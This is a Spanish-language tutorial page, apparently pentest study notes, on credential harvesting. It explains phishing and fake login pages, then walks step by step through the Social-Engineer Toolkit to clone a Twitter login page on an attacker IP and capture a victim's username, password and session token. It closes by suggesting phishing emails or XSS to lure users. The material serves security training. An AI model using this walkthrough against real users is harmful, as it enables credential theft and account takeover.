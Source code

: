 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Credential Harvesting

La recolección de credenciales es una técnica de recopilan credenciales de usuario (como ID de usuario, direcciones de correo electrónico, contraseñas y otra información de inicio de sesión).

### ¿Cómo funciona la recolección de credenciales?

Lo más habitual es que se instale un recolector de credenciales  como una extensión maliciosa de un sitio web o una aplicación. Una vez instalado, el recolector registra cualquier información que los usuarios ingresen durante el proceso de inicio de sesión.

Debido a que los recolectores de credenciales registran todos los inicios de sesión de manera indiscriminada, los ciberdelincuentes pueden crear una reserva de nombres de usuario y contraseñas.

Si un ciberdelincuente tiene acceso a una o más contraseñas comprometidas que un individuo usó en el pasado, esa credencial le proporciona un excelente punto de partida para adivinar su información de inicio de sesión para otros sitios o sistemas.

### Técnicas comunes utilizadas en ataques de recolección de credenciales <a href="#techniques" id="techniques"></a>

La recolección de credenciales normalmente se lleva a cabo junto con otra técnica de ciberataque. Métodos de ataque más frecuentes incluyen los siguientes:

* **Malware**
* **Phishing**
* **Suplantación de dominio**
* **Ataques Man-in-the-Middle (MitM)**

Una de las formas más comunes en que los atacantes realizan la recolección de credenciales es mediante el uso de correos electrónicos de phishing y de phishing con enlaces que podrían redirigir a un usuario a un sitio falso. Este "sitio falso" podría simular un servicio en la nube legítimo, como Gmail, Office 365 o incluso un sitio de redes sociales como Twitter, LinkedIn, Instagram o Facebook. Por eso es tan importante utilizar la autenticación multifactor. Sin embargo, en algunos casos, los atacantes podrían eludir la autenticación multifactor redirigiendo al usuario a un sitio malicioso y robando una cookie de sesión del navegador del usuario.

Muchos servicios y aplicaciones alojadas en la nube utilizan el inicio de sesión único (SSO) y otros utilizan autenticación federada. A veces, las aplicaciones basadas en la nube le permiten iniciar sesión con sus credenciales de Google, Apple o Facebook. Los atacantes podrían redirigir a los usuarios a sitios web suplantados que pueden parecer páginas de inicio de sesión legítimas de Google, Apple, Facebook o Twitter. Desde allí, el atacante podría robar el nombre de usuario y la contraseña de la víctima.&#x20;

#### Ataque de recolección de credenciales mediante correos electrónicos de ingeniería social y phishing

Realizar un ataque de ingeniería social y crear una instancia de un sitio web falso para realizar un ataque de recolección de credenciales.

**Paso 1** . Inicie SET ingresando el comando **setoolkit**.

**Paso 2** . Seleccioneen el menú principal, como se muestra en el Ejemplo 7-1.

Inicio del ataque de ingeniería social

```
Select from the menu:
   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About
  99) Exit the Social-Engineer Toolkit
set> 1
```

**Paso 3** . Selección de vectores de ataque a sitios web

```
Select from the menu:
    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vector
    7) Wireless Access Point Attack Vector
    8) QRCode Generator Attack Vector
    9) Powershell Attack Vectors
   10) Third Party Modules
   99) Return back to the main menu.
set>2 
```

**Etapa 4** . En el menú y la explicación que aparecen a continuación (consulte el Ejemplo 7-3), seleccione **3) Método de ataque de recolección de credenciales** .

```
The Web Attack module is a unique way of utilizing multiple web-based
attacks in order to compromise the intended victim.
The Java Applet Attack method will spoof a Java Certificate and
deliver a metasploit based payload. Uses a customized java applet
created by Thomas Werth to deliver the payload.
The Metasploit Browser Exploit method will utilize select Metasploit
browser exploits through an iframe and deliver a Metasploit payload.
The Credential Harvester method will utilize web cloning of a
website that has a username and password field and harvest all
the information posted to the website.
The TabNabbing method will wait for a user to move to a different
tab, then refresh the page to something different.
The Web-Jacking Attack method was introduced by white_sheep, emgent.
This method utilizes iframe replacements to make the highlighted URL
link to appear legitimate however when clicked a window pops up then
is replaced with the malicious link. You can edit the link replacement
settings in the set_config if it's too slow/fast.
The Multi-Attack method will add a combination of attacks through
the web attack menu. For example, you can utilize the Java Applet,
Metasploit Browser, Credential Harvester/Tabnabbing all at once to see
which is successful.
The HTA Attack method will allow you to clone a site and perform
powershell injection through HTA files which can be used for
Windows-based powershell exploitation through the browser.
   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method
  99) Return to Main Menu
set:webattack>3
```

_**Ejemplo 7-4**_  : Selección de una plantilla web predefinida

**Paso 5** . En el menú que aparece a continuación (ver Ejemplo 7-4), seleccione **1) Plantillas web** para utilizar una plantilla web predefinida (Twitter). Como puede ver, también tiene opciones para clonar un sitio web existente o importar un sitio web personalizado. En este ejemplo, utiliza una plantilla web predefinida.

\


**Paso 6** . En el menú que se muestra en el Ejemplo 7-5, ingrese la dirección IP del host que le gustaría usar para recopilar las credenciales del usuario (en este caso, **192.168.88.225** ). En este ejemplo, SET ha reconocido la dirección IP del sistema atacante. Si esto le ocurre a usted, puede simplemente presionar **Enter** para seleccionar la dirección IP del sistema atacante.

_**Ejemplo 7-5**_  : Ingreso de la dirección IP del recolector de credenciales

<pre><code><strong>                [-] Credential harvester will allow you to utilize the clonecapabilities within SET[-] to harvest credentials or parameters from a website as well asplace them into a report------------------------------------------------------------------------- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS *IMPORTANT * --The way that this works is by cloning a site and looking for formfields to rewrite. If the POST fields are not usual methods forposting forms this could fail. If it does, you can always save theHTML, rewrite the forms to be standard forms and use the "IMPORT"feature. Additionally, really important:If you are using an EXTERNAL IP ADDRESS, you need to place theEXTERNAL IP address below, not your NAT address. Additionally, ifyou don't know basic networking concepts, and you have a privateIP address, you will need to do port forwarding to your NAT IPaddress from your external IP address. A browser doesn't know howto communicate with a private IP address, so if you don't specifyan external IP address if you are using this from an externalperspective, it will not work. This isn't a SET issue this is hownetworking works.set:webattack> IP address for the POST back in Harvester/Tabnabbing[192.168.88.225]:
</strong></code></pre>

**Paso 7** . Seleccione **3. Twitter** , como se muestra en el ejemplo 7-6.

_**Ejemplo 7-6**_  : Selección de la plantilla para Twitter

<pre><code><strong>                --------------------------------------------------------                 **** Important Information ****For templates, when a POST is initiated to harvestcredentials, you will need a site for it to redirect.You can configure this option under:      /etc/setoolkit/set.configEdit this file, and change HARVESTER_REDIRECT andHARVESTER_URL to the sites you want to redirect toafter it is posted. If you do not set these, thenit will not redirect properly. This only goes fortemplates.--------------------------------------------------------  1. Java Required  2. Google  3. Twitterset:webattack> Select a template:3[*] Cloning the website: http://www.twitter.com[*] This could take a little bit...The best way to use this attack is if username and password formfields are available. Regardless, this captures all POSTs on awebsite.[*] The Social-Engineer Toolkit Credential Harvester Attack[*] Credential Harvester is running on port 80[*] Information will be displayed to you as it arrives below:
</strong>
              
</code></pre>

Luego, puede redirigir a los usuarios a este sitio falso de Twitter enviando un correo electrónico de phishing o aprovechando vulnerabilidades web como secuencias de comandos entre sitios (XSS) y falsificación de solicitudes entre sitios (CSRF). La Figura 7-2 muestra la página de inicio de sesión falsa de Twitter, donde el usuario ingresa sus credenciales.

_Página de inicio de sesión falsa_



El ejemplo 7-7 muestra cómo el sistema atacante recopila las credenciales del usuario. El nombre de usuario ingresado es _santosomar_ y la contraseña es _superbadpassword_ . También puede ver el token de sesión.

_**Ejemplo 7-7**_ _: Recopilación de credenciales de usuario_

```
192.168.78.238 - - [28/Jun/2021 23:07:41] "GET / HTTP/1.1" 200 -[*] WE GOT A HIT! Printing the output:POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=santosomarPOSSIBLE PASSWORD FIELD FOUND: session[password]=superbadpasswordPARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52PARAM: scribe_log=POSSIBLE USERNAME FIELD FOUND: redirect_after_login=PARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.192.168.78.238 - - [28/Jun/2021 23:08:27] "POST /sessions HTTP/1.1"302 - 
```

<mark style="color:red;">**Recursos**</mark>&#x20;

{% embed url="https://www.crowdstrike.com/cybersecurity-101/cyberattacks/credential-harvesting/" %}
